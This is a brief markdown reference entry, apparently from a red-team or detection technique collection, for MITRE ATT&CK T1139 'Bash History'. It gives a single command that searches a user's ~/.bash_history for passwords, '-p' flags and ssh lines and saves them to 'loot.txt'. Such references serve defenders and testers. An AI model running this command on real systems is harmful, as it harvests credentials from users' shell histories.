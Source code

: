# Bash History

## MITRE ATT&CK Technique:
	[T1139](https://attack.mitre.org/wiki/Technique/T1139)

## Command
    cat ~/.bash_history | grep -e '-p ' -e 'pass' -e 'ssh' > loot.txt
